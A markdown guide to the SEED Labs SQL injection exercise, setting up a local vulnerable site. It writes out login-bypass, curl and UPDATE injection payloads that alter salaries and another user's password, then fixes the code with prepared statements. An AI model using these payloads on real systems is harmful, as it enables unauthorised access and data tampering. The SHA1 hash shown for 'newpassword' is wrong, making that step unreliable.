









# SQL Injection Attack Lab - Quick Guide
This lab teaches you how to exploit SQL injection vulnerabilities in a web application and how to defend against them using prepared statements.

## Objectives
- Exploit SQL injection in SELECT statements (login bypass)
- Exploit SQL injection in UPDATE statements (modify database)
- Implement prepared statements as defense

---

## Setup

### 1. Install Requirements
```bash
# Install Docker & Docker Compose
sudo apt update
sudo apt install -y docker.io docker-compose mysql-client

# Add user to docker group
sudo usermod -aG docker $USER
sudo reboot
```

### 2. Download and Extract Lab Files
- Download `Labsetup.zip` from https://seedsecuritylabs.org/
- Extract and navigate to folder:
```bash
unzip Labsetup.zip
cd Labsetup
```

### 3. Configure Hosts File
```bash
sudo nano /etc/hosts
# Add this line:
10.9.0.5 www.seed-server.com
```

### 4. Start Containers
```bash
docker-compose up
```

### 5. Verify
Open browser: `http://www.seed-server.com`
---



## Task 1: Get Familiar with SQL

**Goal:** Query the database to see how it works.

### Steps:
```bash
# 1. Access MySQL container
docker ps
docker exec -it <mysql-container-id> /bin/bash

# 2. Login to MySQL
mysql -u root -pdees
```


```bash
# 3. Use database
USE sqllab_users;
SHOW tables;

# 4. Query Alice's information
SELECT * FROM credential WHERE name='Alice';
```


---

## Task 2.1: SQL Injection on Login (Webpage)

**Goal:** Login as admin without knowing the password.

### How It Works:
The vulnerable code:
```php
WHERE name='$input_uname' and Password='$hashed_pwd'
```

### Attack:
1. Go to `http://www.seed-server.com`
2. **Username:** `admin'#`
3. **Password:** `anything`
4. Click Login



**What happens:** The query becomes `WHERE name='admin'#...` - everything after `#` is ignored, bypassing password check.

---

## Task 2.2: SQL Injection via Command Line

**Goal:** Same attack using curl.

### Command:
```bash
curl 'www.seed-server.com/unsafe_home.php?username=admin%27%23&Password=123'
```

**Note:** `%27` = `'` and `%23` = `#`

---

## Task 2.3: Multiple SQL Statements

**Goal:** Try running two SQL statements.

### Attack:
**Username:** `admin'; DELETE FROM credential WHERE name='Alice'#`

**Result:** This fails because PHP's `query()` doesn't allow multiple statements (query stacking prevention).

---

## Task 3.1: Modify Your Own Salary

**Goal:** Increase Alice's salary using UPDATE injection.

### Steps:
1. Login as Alice (username: `Alice`, password: `seedalice`)
2. Go to Edit Profile
3. **Nickname field:** `Alice', salary=999999 WHERE name='Alice'#`
4. Fill other fields with dummy data
5. Click Save

**What happens:** The UPDATE query becomes:
```sql
UPDATE credential SET nickname='Alice', salary=999999 WHERE name='Alice'#', email=...
```
---

## Task 3.2: Modify Someone Else's Salary

**Goal:** Reduce Boby's salary to $1.

### Attack:
**Nickname field:** `Alice', salary=1 WHERE name='Boby'#`

---



## Task 3.3: Change Someone's Password

**Goal:** Change Boby's password and login as him.

### Steps:
1. Generate SHA1 hash:
```bash
echo -n "newpassword" | sha1sum
# Output: 5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8
```

2. **Nickname field:** `Alice', password='5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8' WHERE name='Boby'#`



3. Try using old password "deesboby", it won't work.



4. Logout and login as Boby:
   - Username: `Boby`
   - Password: `newpassword`
---


## Task 4: Defense - Prepared Statement

**Goal:** Fix the vulnerability using prepared statements.

### Steps:
1. Navigate to defense folder:
```bash
cd Labsetup/image_www/Code/defense
nano unsafe.php
```

2. **Replace vulnerable code:**

**BEFORE (Vulnerable):**
```php
// do the query
$result = $conn->query("SELECT id, name, eid, salary, ssn
                        FROM credential
                        WHERE name= '$input_uname' and Password= '$hashed_pwd'");
if ($result->num_rows > 0) {
  // only take the first row 
  $firstrow = $result->fetch_assoc();
  $id     = $firstrow["id"];
  $name   = $firstrow["name"];
  $eid    = $firstrow["eid"];
  $salary = $firstrow["salary"];
  $ssn    = $firstrow["ssn"];
}
```

**AFTER (Secure):**
```php
// do the query using prepared statement
$stmt = $conn->prepare("SELECT id, name, eid, salary, ssn
                        FROM credential
                        WHERE name=? AND Password=?");
$stmt->bind_param("ss", $input_uname, $hashed_pwd);
$stmt->execute();
$stmt->bind_result($id, $name, $eid, $salary, $ssn);
$stmt->fetch();
$stmt->close();
```

3. Rebuild containers:
```bash
docker-compose down
docker-compose build
docker-compose up
```

4. Test at `http://www.seed-server.com/defense/`



   - Try `admin'#` - should FAIL ✅
   - Try `admin` with `seedadmin` - should WORK ✅



**Why it works:** Prepared statements treat user input as pure data, not SQL code. The `'` and `#` are just characters, not SQL syntax.

---
## Credits
SEED Labs by Wenliang Du - https://seedsecuritylabs.org/